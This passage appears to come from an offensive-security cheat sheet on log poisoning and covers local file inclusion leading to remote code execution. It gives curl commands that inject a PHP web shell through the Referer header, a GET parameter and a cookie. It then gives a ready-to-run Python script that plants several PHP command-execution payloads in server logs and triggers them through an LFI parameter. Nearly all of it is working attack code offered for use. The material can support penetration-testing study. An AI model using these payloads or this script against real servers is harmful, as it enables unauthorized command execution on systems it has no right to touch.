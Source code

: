#### Referer Poisoning  
```bash
curl -H "Referer: <?php system(\$_GET['cmd']); ?>" http://target.com/
```

#### GET Parameter Poisoning
```bash
curl "http://target.com/index.php?page=<?php system(\$_GET['cmd']); ?>"
```

#### Cookie Poisoning
```bash
curl -H "Cookie: PHPSESSID=<?php system(\$_GET['cmd']); ?>" http://target.com/
```

### 3.3 Automated Log Poisoning

```python
#!/usr/bin/env python3
import requests
import sys
import urllib.parse

def log_poison(target, lfi_param, log_path):
    payloads = [
        "<?php system($_GET['cmd']); ?>",
        "<?php exec($_GET['c']); ?>",
        "<?php shell_exec($_GET['cmd']); ?>",
        "<?php passthru($_GET['command']); ?>"
    ]
    
    for payload in payloads:
        # Poison via User-Agent
        headers = {'User-Agent': payload}
        requests.get(target, headers=headers)
        
        # Poison via Referer
        headers = {'Referer': payload}
        requests.get(target, headers=headers)
        
        # Test LFI with command execution
        cmd = "whoami"
        url = f"{target}?{lfi_param}={urllib.parse.quote(log_path)}&cmd={cmd}"
        response = requests.get(url)
        
        if response.text and len(response.text) > 0:
            print(f"[SUCCESS] Payload worked: {payload}")
            print(f"Output: {response.text[:200]}")
            return True
    
    return False

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Usage: python3 log_poison.py <target> <lfi_param> <log_path>")
        sys.exit(1)
        
    target = sys.argv[1]
    lfi_param = sys.argv[2] 
    log_path = sys.argv[3]
    
    log_poison(target, lfi_param, log_path)
```
